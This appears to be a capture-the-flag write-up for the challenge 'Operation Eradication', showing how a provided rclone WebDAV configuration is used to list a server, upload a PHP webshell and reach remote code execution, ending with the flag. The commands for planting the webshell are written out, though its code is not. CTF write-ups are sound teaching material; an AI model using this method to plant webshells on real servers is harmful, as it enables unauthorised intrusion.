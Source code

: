 # Operation Eradication

### Challenge Description
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/39c2ff9f-65e4-4790-9af3-47741bcefe72)

### Solution
The provided file looks like a configuration file:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/1dd6c000-bb6e-4060-ab31-841092487e30)

We start by googling around to see if we can find what it is a configuration file for:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/fba257f6-9548-428e-b5d0-9d4ed340c0d0)

The first search result mentiones exactly the documentation that we need. It seems it is a configuration file for `rclone:`
https://rclone.org/webdav/

We need to adjust it a bit to be able to use it:  

```bash
[remote]
type = webdav
url = http://chal.ctf.games:31372/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

Using this syntax, we can list the contents on this webserver:

```bash
rclone --config operation_eradication ls remote:
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/adc52e53-fe34-41a6-a99d-1ff5783159fc)

I spent some time going through these files but came up empty. Then I noticed that the website in question is a PHP website:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/2cf4059e-d1ef-4f44-bf2d-5ba08e941e0d)

So I tried to copy a PHP webshell onto it:  

```bash
 rclone --config operation_eradication copy webshell.php remote:
```
No errors came up so I took it as a good sign, however, when I tried to access it, I get a Not Found error:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/180a758e-3b2b-4548-b6cb-d80f424e4535)

But if we list it, we can see our file:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/bd21f996-9842-4c33-9418-770488d22062)

So I tried again, but this time I used `http_proxy` to pass the request via Burpsuite and see what kind of request it's sending and how it looks like:  

```bash
http_proxy=http://127.0.0.1:8080 rclone --config operation_eradication copy shell.php remote:
```
Burpsuite shows a successful request and gives us something to work with:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/65f4b9ff-fa09-4ef3-9c2b-1e47323de796)

I sent it to Repeater and changed it to a get request to our webshell and we have RCE:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/085b5ef9-0372-40a9-b615-2198d64ae4d5)

I enumerated quite a while until I read the index.php source code and found the flag:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/814bb5f1-3db4-4f11-ab32-0c38d18c1491)

flag{564607375b731174f2c08c5bf16e82b4}
